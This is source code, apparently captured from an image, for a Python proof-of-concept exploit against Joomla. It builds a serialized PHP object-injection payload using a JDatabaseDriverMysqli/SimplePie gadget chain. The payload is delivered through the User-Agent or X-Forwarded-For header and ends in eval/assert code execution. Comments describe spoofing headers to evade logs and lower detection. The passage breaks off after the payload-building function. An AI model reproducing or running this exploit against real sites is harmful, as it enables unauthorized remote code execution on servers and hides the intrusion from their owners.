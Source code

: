     import requests
    import subprocess
    import argparse
    import sys
    import base64
    import string
    import random
    import time
    import urllib3

    def id_generator(size=6, chars=string.ascii_uppercase + string.digits):
        return str(''.join(random.choice(chars) for _ in range(size)))

    def get_url(url, user_agent, ua_method, proxyDict):
        if ua_method == True :
            # Defaul PoC
            headers = {
            'User-Agent': user_agent
            }
        else:
            # Firefox user_agent and x-forwarded-for method to evade log and lower detection
            headers = {
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0',
            'X-Forwarded-For': user_agent
            }
        try:
            cookies = requests.get(url,headers=headers, proxies=proxyDict, verify=False).cookies
            for _ in range(3):
                response = requests.get(url, headers=headers,cookies=cookies, proxies=proxyDict, verify=False)
            return response
        except requests.exceptions.MissingSchema:
            print "\033[1;31;10m\n[!] Missing http:// or https:// from Target URL\n\033[1;37;10m"
            sys.exit(1)

    def php_str_noquotes(data):
        #Convert string to chr(xx).chr(xx) for use in php
        encoded = ""
        for char in data:
            encoded += "chr({0}).".format(ord(char))

        return encoded[:-1]

    def generate_payload(php_payload):
        php_payload = "eval({0})".format(php_str_noquotes(php_payload))
        terminate = '\xf0\xfd\xfd\xfd';
        exploit_template = r'''}__test|O:21:"JDatabaseDriverMysqli":3:{s:2:"fc";O:17:"JSimplepieFactory":0:{}s:21:"\0\0\0disconnectHandlers";a:1:{i:0;a:2:{i:0;O:9:"SimplePie":5:{s:8:"sanitize";O:20:"JDatabaseDriverMysql":0:{}s:8:"feed_url";'''
        injected_payload = "{};JFactory::getConfig();exit".format(php_payload)    
        exploit_template += r'''s:{0}:"{1}"'''.format(str(len(injected_payload)), injected_payload)
        exploit_template += r''';s:19:"cache_name_function";s:6:"assert";s:5:"cache";b:1;s:11:"cache_class";O:20:"JDatabaseDriverMysql":0:{}}i:1;s:4:"init";}}s:13:"\0\0\0connection";b:1;}''' + terminate
